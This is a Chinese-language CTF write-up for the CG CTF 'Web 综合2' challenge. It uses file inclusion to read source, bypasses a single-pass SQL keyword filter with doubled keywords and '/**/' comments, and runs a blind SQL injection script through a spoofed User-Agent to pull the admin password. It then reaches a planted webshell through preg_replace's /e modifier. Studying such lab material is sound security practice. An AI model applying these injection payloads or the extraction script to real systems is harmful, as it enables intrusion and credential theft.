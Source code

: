 ```yaml
---
title: "CG CTF Web 综合2 Writeup"
date: 2022-07-20T16:08:22+08:00
draft: false
author: "X1r0z"

tags: ['php','ctf','sqli']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


题目很综合, 出的很好

看到答案后觉得当初如果往社工方面想的话, 会更简单...

<!--more-->

http://cms.nuptzj.cn/

![20220720161011](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161011.png)

留言板

常规性的右键查看源代码

![20220720161031](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161031.png)

一看就知道是文件包含

![20220720161056](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161056.png)

根据 sm.txt 以及直接访问网站得到的相关信息, 下载了网站的 PHP 源码, 但 config.php 无法读取

![20220720161214](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161214.png)

about.php

![20220720161238](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161238.png)

有一个过滤, 提示是敏感目录, 有一个 `loginxlcteam` 关键词

直接访问试试

![20220720161326](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161326.png)

后台登陆, 但源码肯定读不出来

很容易就可以猜出来管理员账户是 admin

但密码尝试了好几位都是长度不一致

![20220720161430](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161430.png)

可能有点 bug

可以尝试爆破, 但这个先放一边, 我们接着看源码

tips 说了 xss 与题目无关, 所以我们看一下 antiinject.php

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

这里把关键字都过滤了, 而且过滤了 `' " + - =` 这些单个的字符和空格

可以看出来, 这里的"过滤"仅仅是过滤一次, 对于 `select` `union` 这种关键词可以以 `selselectect` `ununionion` 的形式进行绕过, 对于空格我们可以用 mysql 的行间注释 `/**/` 但对于单字符来说无法绕过

也就是说我们的注入语句中不可能出现 `' " =`

另外发现了 passencode.php

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function passencode($content){
//$pass=urlencode($content);
$array=str_split($content);
$pass="";
for($i=0;$i<count($array);$i++){
if($pass!=""){
$pass=$pass." ".(string)ord($array[$i]);
}else{
$pass=(string)ord($array[$i]);
}
}
return $pass;
}
?>
```

就是用 ASCII + 空格的形式编码管理员密码, 这个后面会用到, 现在先放一边

查看了好几个 SQL 操作的点, 基本都是下面这种

![20220720162010](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162010.png)

首先这种都是字符型的, 而且使用了 `mysql_real_escape_string()` 进行转义

也就是说在没有数据库启用宽字节 (如 gbk) 的情况下, 我们根本没有办法进行注入

但是 `mysql_real_escape_string()` 的转义对于整数型的注入是没有用的, 因为 `?id=123` 这种形式的注入根本就不需要闭合引号

所以我们现在的目标就很明确了: 找到一个整数型的注入点

经过仔细查找后, 在 so.php 有一处注入点

![20220720162323](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162323.png)

这里对 `User-Agent` 进行了验证, burp 直接改就行

![20220720162539](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162539.png)

下面就是正常的手工注入流程

我第一次用的是盲注, 甚至还写了个小脚本....(有点绕弯子)

后来发现 union 其实也可以, 不过需要先让前面的内容报错 (因为正常的内容占位了, 会导致 union 后面的内容无法显示出来)

```
soid=1/**/ooorrderrder/**/by/**/4 // true
soid=1/**/ooorrderrder/**/by/**/5 // false
```

order by 绕过有个小技巧, 就是构造 `ooorrderrder`, 因为 `order` 含有 `or`, 会过滤两次, 在 `o` 和 `r` 的中间再插入一次 `or` 就能绕过去了

或者直接 union select 挨个挨个试

![20220720162946](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162946.png)

顺便贴一下当时盲注写的脚本

```python
#-*-coding:utf-8-*-

import requests
import binascii

def str_to_hexStr(string):
    str_bin = string.encode('utf-8')
    return binascii.hexlify(str_bin).decode('utf-8')


heads = {'User-Agent':'Xlcteam Browser'}

url = 'http://cms.nuptzj.cn/so.php'

dicts = '0123456789 qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_{}!@#$%^&*()+=-?'

password=''

for i in range(1,35):
    for p in dicts:
        pp = str_to_hexStr(p)
        ppp = '0x'+pp
        payloads = '1/**/aandnd/**/if(mid((selselectect/**/userppassass/**/frfromom/**/adadminmin/**/where/**/usernnameame/**/like/**/0x61646d696e),'+str(i)+',1)/**/like/**/'+ppp+',1,0)'
        datas = {'soid':payloads}
        res = requests.post(url,data=datas,headers=heads)
        if res.text.find('0xfxxker')!=-1:
            password += p
            print(password)
            break
```

其实前面已经知道了是 ASCII + 空格的编码形式, dicts 不用写的那么多, `1234567890 ` 就够用了

![20220720163757](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163757.png)

数据表结构前面的 sm.txt 已经给出来了

![20220720163028](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163028.png)

密文是 `102 117 99 107 114 117 110 116 117`

根据前面的 passencode.php 可以知道是 ASCII 编码, 解码得到 `fuckruntu`


登录

![20220720163124](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163124.png)

一句话木马在根目录 `xlcteam.php`

先用文件包含读一下内容

![20220720163228](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163228.png)

回调函数

看到 `|.*|e` 想到了正则表达式, 网上搜了一下发现 PHP 可以通过 `preg_replace()` 来执行命令

`array_walk()` 的作用就不说了

`http://cms.nuptzj.cn/xlcteam.php?www=preg_replace`

菜刀连接, 密码 wtf (好像现在 webshell 管理工具已经换了....)

![20220720163522](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163522.png)